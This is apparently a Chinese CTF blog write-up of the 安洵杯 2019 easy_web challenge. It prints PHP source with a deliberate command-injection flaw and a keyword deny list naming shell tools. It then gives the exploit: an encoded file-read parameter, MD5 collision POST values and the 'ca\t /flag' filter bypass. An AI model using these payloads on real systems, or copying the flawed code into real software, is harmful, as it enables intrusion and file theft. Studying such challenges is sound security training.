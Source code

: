 # 原创
：  [安洵杯 2019]easy_web

# [安洵杯 2019]easy_web

#### [安洵杯 2019]easy_web

## 考点

> 
编码、md5碰撞、RCE绕过


## 思路

> 
打开题目链接，第一眼望过去没有啥有用的东西，但我们注意到url的img参数后的东西`TXpVek5UTTFNbVUzTURabE5qYz0`有点像base64，解码两次后我们得到`3535352e706e67`，十六进制转字符串我们得到`555.png`<br/> 我们进行F12查看，发现题目给了img的base64值，应该就是555.png的base64值了，那我们不妨试试，将index.php转十六进制再进行两次base64编码，当做img后面的参数，看看能不能得到index.php的源码，转换后的index.php为`TmprMlJUWTBOalUzT0RKRk56QTJPRGN3`，得到一串base64值，解码得到


```
&lt;?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&amp;cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '&lt;img src ="./ctf3.jpeg"&gt;';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "&lt;img src='data:image/gif;base64," . $txt . "'&gt;&lt;/img&gt;";
    echo "&lt;br&gt;";
}
echo $cmd;
echo "&lt;br&gt;";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&amp;[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|&lt;|&gt;/i", $cmd)) {
    echo("forbid ~");
    echo "&lt;br&gt;";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] &amp;&amp; md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?&gt;
&lt;html&gt;
&lt;style&gt;
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
&lt;/style&gt;
&lt;body&gt;
&lt;/body&gt;
&lt;/html&gt;

```

> 
(preg_match("/flag/i", $file))这个把参数里的flag过滤掉了，我们就没法就去读flag文件了，所以利用下面的echo ‘$cmd’;来进行命令执行，在此之前有一个md5强碰撞<br/> 由于是强制转化为string，我们没法通过数组绕过，故采用`fastcoll_v1.0.0.5.exe`进行MD5强碰撞


```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&amp;b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

```

> 
禁用了很多读取文件常用的命令，比如tac、nl、more、head、tail、cat、echo、vi等被ban了，单引号、@、分号、逗号、$、{、}等构造符号也被禁了<br/> dir没被ban，但是\xA0被ban了，于是用dir%20/看一下根目录都有啥文件，发现flag文件<br/> 1.利用ca\t或者/bin/c\at来绕过，利用反斜杠产生转义字符绕过后仍可执行<br/> 2.sort命令：sort将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按ASCII码值进行比较，最后将他们按升序输出


## Payload

```
先传参img=TmprMlJUWTBOalUzT0RKRk56QTJPRGN3，得到index.php的源码
利用强碰撞绕过MD5，传参
a=abc%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%D6%16y%AC%CE%C5%A1LrY5fn%94%10%D9%01%C3%AC%F8%AAN%21%D0%27%BE%3Ej%A7%22%0C%D08%D3%AF%DFRo%2F%A4%8B%E8%EB45j%E4h%9C%21%22%AB%7E%BC%8E%7C%17%9E%C3Xg%D7%A8%CDHt%BE%AB.%2FWb%3Eb%EA%FC%261%0F_%3D%AFo%3F%1E%DE%E8i%86%7D%BF%C7_Q%CDA%B4%CF%B8n%06Ir%7F%5C%A3k%F9%2AO%DFF%2A%F3%8BcH%FF%85%3F%0D%D0%9B%C7%C8-%12%92
b=abc%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%D6%16y%AC%CE%C5%A1LrY5fn%94%10%D9%01%C3%ACx%AAN%21%D0%27%BE%3Ej%A7%22%0C%D08%D3%AF%DFRo%2F%A4%8B%E8%EB45%EA%E4h%9C%21%22%AB%7E%BC%8E%7C%17%9E%C3%D8g%D7%A8%CDHt%BE%AB.%2FWb%3Eb%EA%FC%261%0F_%3D%AFo%BF%1E%DE%E8i%86%7D%BF%C7_Q%CDA%B4%CF%B8n%06Ir%7F%5C%A3k%F9%2A%CF%DEF%2A%F3%8BcH%FF%85%3F%0D%D0%9BG%C8-%12%92
利用ca\t /flag绕过正则，得到flag

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210514140031472.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210514140041492.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210514140049693.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

